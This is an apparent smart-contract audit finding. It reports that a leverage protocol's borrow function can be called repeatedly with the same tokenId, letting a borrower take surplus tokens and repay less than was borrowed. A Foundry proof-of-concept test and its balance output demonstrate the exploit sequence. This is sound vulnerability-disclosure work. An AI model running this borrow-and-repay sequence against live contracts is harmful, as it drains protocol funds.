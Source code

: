 Brilliant Cornflower Viper

high

# Attacker can borrow a larger number of tokens and paying lesser fee when repaying debt

## Summary
An attacker can borrow a significant number of tokens and repay less than the actual borrowed amount.
 
## Vulnerability Detail
The attacker initiates borrowing by calling the borrow function. Subsequently, the attacker repetitively borrows using the same tokenId. This action results in additional tokens being borrowed without increasing the total tokens borrowed or the debt count. The attacker can then invoke the repay function, settling the initial debt while retaining surplus tokens

## Impact
This leads to loss of funds for the protocol

## Code Snippet

https://github.com/sherlock-audit/2024-02-leverage-contracts/blob/main/wagmi-leverage/contracts/LiquidityBorrowingManager.sol#L394

```solidity
function testBorrow() public {
        uint128 minLiqAmt = _minimumLiquidityAmt(253_320, 264_600);
        vm.startPrank(bob);
        console.log("initial blance of eth before borrowing", WETH.balanceOf(bob));
        // console.log("btc", WBTC.balanceOf(bob));
        uint256 bal;
        uint256 initialBobEThBalance;

        borrowingManager.borrow(createBorrowParams(tokenId, minLiqAmt), block.timestamp + 1);
        initialBobEThBalance = WETH.balanceOf(bob);
        console.log("after first borrow token", WETH.balanceOf(bob));
        bytes32[] memory key = borrowingManager.getBorrowingKeysForTokenId(tokenId);
        // console.log("btc", WBTC.balanceOf(bob));
        // vm.roll(2);
       

        borrowingManager.borrow(createBorrowParams(tokenId, minLiqAmt), block.timestamp + 1);
        // // vm.roll(2);
        console.log(" after second borrow token", WETH.balanceOf(bob));
       

        borrowingManager.borrow(createBorrowParams(tokenId, minLiqAmt), block.timestamp + 1);
        // // vm.roll(20);
        console.log(" after third borrow token", WETH.balanceOf(bob));
       

        borrowingManager.borrow(createBorrowParams(tokenId, minLiqAmt), block.timestamp + 1);
        console.log("afterfourth borrow token", WETH.balanceOf(bob));

        uint256 finalBobEthBalance = WETH.balanceOf(bob);
        bal = initialBobEThBalance - finalBobEthBalance;

        console.log("no of debt before repayment after four borrows", borrowingManager.getBorrowerDebtsCount(bob));

        // for (uint256 i = 0; i < key.length; i++) {
        //     (,,,, uint256 borrowed,,,) = borrowingManager.borrowingsInfo(key[i]);
        //     console.log(
        //         "after fourth borrow ...borrowed data stored is  ",
        //         borrowed,
        //         "total borrwed is ",
        //         bal
        //     );
        // }

        //  repay tokens
        uint holdTokens;
        for (uint256 i = 0; i < key.length; i++) {
           (uint saleOut,uint holdToken) = borrowingManager.repay(createRepayParams(key[i]), block.timestamp + 1);
           holdTokens = holdToken;
        }
        console.log("amount repayed : initial money used was 1e18", holdTokens); 
        console.log("amount of bob balance after repayment", WETH.balanceOf(bob));
        console.log("total token extra borrowed after 1st borrow", bal);
        console.log("no of debt after repayment", borrowingManager.getBorrowerDebtsCount(bob));
    }

```

```bash
 initial blance of eth before borrowing 10000000000000000000000
 after first borrow token 9999993780741420434871
 after second borrow token 9999981342368835366206
 after third borrow token 9999962684877499201596
  afterfourth borrow token 9999937808260293541899
  no of debt before repayment after four borrows 1
  amount repayed : initial money used was 1e18 136527062740648365
  amount of bob balance after repayment 10000074335323034190264
  total token extra borrowed after 1st borrow 55972481126892972
  no of debt after repayment 0
```

## Tool used

Manual Review

## Recommendation

Users should refrain from taking multiple loans with the same tokenId to mitigate this vulnerability. 
